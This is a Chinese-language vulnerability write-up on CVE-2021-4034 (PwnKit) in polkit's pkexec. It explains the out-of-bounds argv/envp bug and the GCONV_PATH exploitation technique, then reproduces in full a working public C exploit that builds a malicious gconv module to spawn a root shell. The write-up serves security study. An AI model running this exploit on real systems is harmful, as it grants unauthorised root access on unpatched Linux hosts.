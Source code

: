 ```yaml
---
title: CVE-2021-4034
date: 2022-01-27 20:53:00
category: CVE Vulnerability
tags: 
    - CVE-2021-4034
---
```


漏洞原文来自 [Qualys Security Blog](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034) 

PoC1 来自 https://github.com/berdav/CVE-2021-4034

PoC2 来自 https://github.com/arthepsy/CVE-2021-4034

## 漏洞描述

Polkit 是用于在类 Unix 操作系统中控制系统范围特权的组件。它为非特权进程提供了与特权进程进行通信的有组织的方式。

Polkit 的 pkexec 存在本地权限提升漏洞，已获得普通权限的攻击者可通过此漏洞获取root权限。

该漏洞CVSS评分：7.8，危害等级：高危

漏洞利用难度低，最早引入问题的 commit 来自 2009 年，影响版本范围远超去年的 sudo 漏洞。

漏洞作者在 Ubuntu、Debian、Fedora 和 CentOS 的默认安装环境上均测试通过。

## 影响范围

由于Polkit为系统预装工具，所有主流Linux版本均受影响

## 漏洞分析

pkexec为polkit其中的一个组件，允许用户以另一个用户身份执行命令，其使用有点类似于sudo。

```bash
$ pkexec
pkexec --version |
       --help |
       --disable-internal-agent |
       [--user username] PROGRAM [ARGUMENTS...]

See the pkexec manual page for more details.
```

因此其权限具有SUID，在执行时程序拥有文件所有者权限，也就是root。

```bash
$ ll /usr/bin/pkexec
-rwsr-xr-x 1 root root 31032 May 26  2021 /usr/bin/pkexec*
```

首先对其还未修复的代码进行审计，这里选用[尚未更新的源码](https://github.com/wingo/polkit/blob/master/src/programs/pkexec.c)进行分析。在main函数中，在533-567行处理命令行参数，for 循环从下标 1 开始遍历 argv[]。

```c
int
main (int argc, char *argv[])
{
    ...
    for (n = 1; n < (guint) argc; n++)
    {
        ...
    }
    ...
    path = g_strdup (argv[n]);
    ...
    if (path[0] != '/')
    {
        s = g_find_program_in_path (path);
        ...
        argv[n] = path = s;
        ...
    }
    ...
    if (clearenv () != 0)
    {
      g_printerr ("Error clearing environment: %s\n", g_strerror (errno));
      goto out;
    }
    ...
}
```

![image-20220127202308142](assets/image-20220127202308142.png)

然后在610行开始，会获取PROGRAM参数名称，也就是需要执行的程序。

![image-20220127202452874](assets/image-20220127202452874.png)

而问题就出现在这`n=1`上，当执行pkexec不传递任何参数时将会发生：

1.  在第 534 行，整数 n 永久设置为 1
2.  在第 610 行，从 argv[1] 越界读取指针路径
3.  在第 639 行，指针 s 被越界写入 argv[1]

但巧合的是，当执行程序时，内核会将参数，环境字符串和指针（argv 和 envp）复制到新程序堆栈的末尾

```
|---------+---------+-----+------------|---------+---------+-----+------------| 
| argv[0] | argv[1] | ... | argv[argc] | envp[0] | envp[1] | ... | envp[envc] | 
|----|----+----|----+-----+-----|------|----|----+----|----+-----+-----|------| 
```

如此看来，当越界读写argv[1]时，实际上读写的是envp[0]的值。

1.  假设我们执行pkexec，此时`argc=0`，`envp={"xxx"}`
2.  610行，程序会读取argv[1]到path变量中，也就是"xxx"
3.  632行，`s = g_find_program_in_path (path)`找到该程序的绝对路径，假设为/usr/bin/xxx
4.  639行，程序将s写入argv[1]和path，从而覆盖了第一个环境变量。此时envp也就变成了`{"/usr/bin/xxx"}`

如果把环境变量稍加更改，当`envp={"PATH=folder_name=."}`，在folder目录中放置一个可执行文件`lol`，最后在越界读写后`envp[0]`将会变成`folder_name=./lol`。

因此，这种越界读写会将一个新的不安全的环境变量引入pkexec的环境中（执行前所做的过滤将功亏一篑）

但是，程序的本身还是十分看中安全问题的，在701行程序会清除所有环境变量。也就是说，所有的漏洞利用需要在701行之前完成（不要想着LD_PRELOAD啦）。

![image-20220127204623040](assets/image-20220127204623040.png)

## 漏洞利用

在pkexec中多次使用了g_printerr()函数，该函数是调用GLib的函数。但是如果环境变量CHARSET不是UTF-8，g_printerr()将会调用glibc的函数iconv_open()，来将消息从UTF-8转换为另一种格式。

iconv_open函数的执行过程为：iconv_open函数首先会找到系统提供的gconv-modules配置文件，这个文件中包含了各个字符集的相关信息存储的路径，每个字符集的相关信息存储在一个.so文件中，即gconv-modules文件提供了各个字符集的.so文件所在位置，之后会调用.so文件中的gconv()与gonv_init()函数。

如果我们改变了系统的GCONV_PATH环境变量，也就能改变gconv-modules配置文件的位置，从而执行一个恶意的so文件实现任意命令执行。

具体的利用过程如下：

1.  首先一个gconv-modules配置文件，放置在./xxx目录下，其内容指向一个准备好的恶意so文件。
2.  创建可执行文件xxx，放置在./GCONV_PATH=.目录下，注意目录名称为`GCONV_PATH=.`
3.  然后调用pkexec，argc=0，envp=`{"xxx","PATH=GCONV_PATH=.","LC_MESSAGES=en_US.UTF-8"}`
4.  pkexec执行到610行，path=xxx
5.  pkexec执行到632行，找到xxx的具体位置，因为我们制定了环境变量`PATH=GCONV_PATH=.`，所以会找到xxx的具体位置为`GCONV_PATH=./xxx`
6.  pkexec执行到636行，envp[0] = argv[1] = path= `GCONV_PATH=./xxx`，此时envp为`{"GCONV_PATH=./xxx","PATH=GCONV_PATH=.","LC_MESSAGES=en_US.UTF-8"}`
7.  pkexec执行到643行，调用g_printerr，从而调用iconv_open()函数，找到gconv-modules配置文件：./xxx/gconv-modules，然后找到so文件，最终执行so文件。

我们只要在so文件的gonv_init()函数中，执行`/bin/sh`即可拿到一个root权限的shell。

EXP展示（来自PoC2）：

```c
/*
 * Proof of Concept for PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit’s pkexec (CVE-2021-4034) by Andris Raugulis <moo@arthepsy.eu>
 * Advisory: https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034
 */
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char *shell = 
	"#include <stdio.h>\n"
	"#include <stdlib.h>\n"
	"#include <unistd.h>\n\n"
	"void gconv() {}\n"
	"void gconv_init() {\n"
	"	setuid(0); setgid(0);\n"
	"	seteuid(0); setegid(0);\n"
	"	system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");\n"
	"	exit(0);\n"
	"}";

int main(int argc, char *argv[]) {
	FILE *fp;
	system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
	system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
	fp = fopen("pwnkit/pwnkit.c", "w");
	fprintf(fp, "%s", shell);
	fclose(fp);
	system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
	char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
	execve("/usr/bin/pkexec", (char*[]){NULL}, env);
}
```

## 参考

https://saucer-man.com/information_security/876.html

https://mp.weixin.qq.com/s/3rnkcRfX_BxzlVzp0stQRw

感谢swing师傅的指导